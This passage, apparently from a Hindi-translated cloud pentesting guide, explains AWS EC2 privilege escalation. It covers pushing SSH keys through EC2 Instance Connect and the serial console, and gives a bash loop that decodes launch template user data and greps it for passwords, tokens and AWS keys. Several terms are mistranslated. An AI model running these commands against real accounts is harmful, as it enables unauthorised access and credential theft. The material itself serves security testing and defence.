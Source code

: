 ### `ec2-instance-connect:SendSSHPublicKey`

एक हमलावर जिसके पास अनुमति **`ec2-instance-connect:SendSSHPublicKey`** है, वह एक उपयोगकर्ता को ssh कुंजी जोड़ सकता है और इसका उपयोग करके उसे एक्सेस कर सकता है (यदि उसके पास इंस्टेंस पर ssh एक्सेस है) या प्रिविलेज बढ़ा सकता है।
```bash
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "ec2-user" \
--ssh-public-key "file://$PUBK_PATH"
```
**संभावित प्रभाव:** चल रहे उदाहरणों से जुड़े EC2 IAM भूमिकाओं के लिए सीधे प्रिवेस्क।

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

एक हमलावर जिसके पास अनुमति **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** है, वह **एक धारावाहिक कनेक्शन में ssh कुंजी जोड़ सकता है**। यदि धारावाहिक सक्षम नहीं है, तो हमलावर को इसे सक्षम करने के लिए अनुमति **`ec2:EnableSerialConsoleAccess`** की आवश्यकता होती है।

धारावाहिक पोर्ट से कनेक्ट करने के लिए आपको **मशीन के अंदर एक उपयोगकर्ता का उपयोगकर्ता नाम और पासवर्ड जानना भी आवश्यक है**।
```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--serial-port 0 \
--region "eu-west-1" \
--ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```
इस तरीके से privesc के लिए ज्यादा उपयोगी नहीं है क्योंकि आपको इसे शोषण करने के लिए एक उपयोगकर्ता नाम और पासवर्ड जानना होगा।

**संभावित प्रभाव:** (अत्यधिक अप्रूव करने योग्य नहीं) चल रहे उदाहरणों से जुड़े EC2 IAM भूमिकाओं के लिए सीधे privesc।

### `describe-launch-templates`,`describe-launch-template-versions`

चूंकि लॉन्च टेम्पलेट्स में संस्करण होते हैं, **`ec2:describe-launch-templates`** और **`ec2:describe-launch-template-versions`** अनुमतियों वाला एक हमलावर इनका उपयोग संवेदनशील जानकारी, जैसे उपयोगकर्ता डेटा में मौजूद क्रेडेंशियल्स, खोजने के लिए कर सकता है। इसे पूरा करने के लिए, निम्नलिखित स्क्रिप्ट उपलब्ध लॉन्च टेम्पलेट्स के सभी संस्करणों के माध्यम से लूप करती है:
```bash
for i in $(aws ec2 describe-launch-templates --region us-east-1 | jq -r '.LaunchTemplates[].LaunchTemplateId')
do
echo "[*] Analyzing $i"
aws ec2 describe-launch-template-versions --launch-template-id $i --region us-east-1 | jq -r '.LaunchTemplateVersions[] | "\(.VersionNumber) \(.LaunchTemplateData.UserData)"' | while read version userdata
do
echo "VersionNumber: $version"
echo "$userdata" | base64 -d
echo
done | grep -iE "aws_|password|token|api"
done
```
उपरोक्त कमांड में, हालांकि हम कुछ पैटर्न (`aws_|password|token|api`) निर्दिष्ट कर रहे हैं, आप अन्य प्रकार की संवेदनशील जानकारी के लिए खोजने के लिए एक अलग regex का उपयोग कर सकते हैं।
